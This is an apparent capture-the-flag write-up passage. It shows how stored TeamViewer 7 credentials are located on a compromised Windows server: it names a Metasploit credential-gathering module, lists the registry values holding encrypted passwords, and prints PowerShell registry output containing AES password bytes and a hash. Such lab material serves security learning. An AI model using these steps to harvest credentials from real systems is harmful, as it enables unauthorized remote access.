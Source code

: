 

TeamViewer is a remote management software. Since this is the server, it
will have credentials used for others to connect into it.

I can get the version by looking in the
`\Program Files (x86)\TeamViewer`:



    PS C:\Program Files (x86)\TeamViewer> ls

        Directory: C:\Program Files (x86)\TeamViewer

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        2/27/2020  10:35 AM                Version7 



There is a Metasploit module
`post/windows/gather/credentials/teamviewer_passwords`. But since I like
to avoid Meterpreter to see what's going on under the hood, I'll take a
look at the
[source](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/gather/credentials/teamviewer_passwords.rb).
There's a list of registry keys, and the one that looks like version 7
is `HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`. For each location,
it looks for the following values:

-   OptionsPasswordAES
-   SecurityPasswordAES
-   SecurityPasswordExported
-   ServerPasswordAES
-   ProxyPasswordAES
-   LicenseKeyAES

I can take a look at that registry key:



    PS C:\> cd HKLM:\software\wow6432node\teamviewer\version7
    PS HKLM:\software\wow6432node\teamviewer\version7> get-itemproperty -path .

    StartMenuGroup            : TeamViewer 7
    InstallationDate          : 2020-02-20
    InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
    Always_Online             : 1
    Security_ActivateDirectIn : 0
    Version                   : 7.0.43148
    ClientIC                  : 301094961
    PK                        : {191, 173, 42, 237...}
    SK                        : {248, 35, 152, 56...}
    LastMACUsed               : {, 005056B99509}
    MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion                : 1
    ClientID                  : 1769137322
    CUse                      : 1
    LastUpdateCheck           : 1584564540
    UsageEnvironmentBackup    : 1
    SecurityPasswordAES       : {255, 155, 28, 115...}
    MultiPwdMgmtIDs           : {admin}
    MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
    Security_PasswordStrength : 3
    PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer\vers
                                ion7
    PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer
    PSChildName               : version7
    PSDrive                   : HKLM